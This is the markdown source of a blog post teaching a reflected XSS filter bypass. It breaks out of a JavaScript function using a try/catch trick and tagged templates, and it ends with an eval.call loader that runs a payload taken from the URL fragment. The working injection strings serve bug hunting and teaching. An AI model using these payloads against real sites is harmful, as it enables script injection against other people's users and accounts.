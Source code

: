 ```yaml
---
layout: post
title: "Breaking out of a function context without () and // for XSS"
---
```


Let's say you've found something that could lead to relfected xss. You can inject unescaped characters in a piece of javascript on a page, for example:


{% highlight html linenos %}
...
<script>
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/INJECTION_HERE';
            someMoreCode;
        }
        //...
    });
</script>
...
{% endhighlight %}

Also, you want your xss payload to fire without a need of `foo` function being called, but you cannot use `(`, `)`, `/`, `<`, `>` and new lines. This can actually happen if our entry point is a part of url's path like `https://www.example.com/foo/OUR_INPUT_HERE/bar/`. In such conditions, we cannot get out of `<script>` and jquery's `$(...)`. So what do we do?

## Getting out of foo ...

First, let's get out of `foo` function. This one is pretty simple and obvious. All we have to do is to inject:

{% highlight text %}
'} alert`1` - '
{% endhighlight %}

but then we get:
{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1` - '';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

Closing bracket on line 8 breaks the code inside `$(function () {...})` and therefore our `alert` is not being executed. We need to do it a little bit smarter.

## ... without braking everything else

So, we need to put something after our `alert` to make the closing bracket fit. Maybe let's add `function bar() {`?
<br>
<div style="text-align: center; opacity: .8"> but we cannot use ()'s.</div>
<br>
So maybe we can just open `{` to get an [object literal](https://www.dyn-web.com/tutorials/object-literal/)?
<br>
<br>
<div style="text-align: center; opacity: .8">Inside an object literal only key:value pairs are allowed and we have bunch of code in the following lines</div>
<br>
<br>
Ok. So what kind of javascript creature has an opening `{`, no `()`'s and code inside?
<br>
<br>
<div style="text-align: center; opacity: .8">
The try...catch statement!
</div>
<br>
<br>
Great! When we use something like:

{% highlight text %}
'} alert`1`; try {} catch {'
{% endhighlight %}

we end up with:

{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1`; try {} catch {'';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

which is valid javascript code and therefore our `alert` fires!

## But how do we execute anything more meaningful than an alert?

As I've mentioned, we are not allowed to use `()` which makes creating payloads a bit tricky. To get around this, we can use the following trick. First, we inject this in our entry point:

{% highlight javascript %}
eval.call`${document.location.hash.substr`1`}`
{% endhighlight %}

and then we put our payload in url's [fragment identifier](https://en.wikipedia.org/wiki/Fragment_identifier) where all characters are allowed.

For example:

{% highlight text %}
https://www.example.com/foo/eval.call`${document.location.hash.substr`1`}`/bar/#yourPayloadHere()
{% endhighlight %}

Of course, we need to url encode `eval.call...` to make it work.


<br>
<br>
Happy hunting!
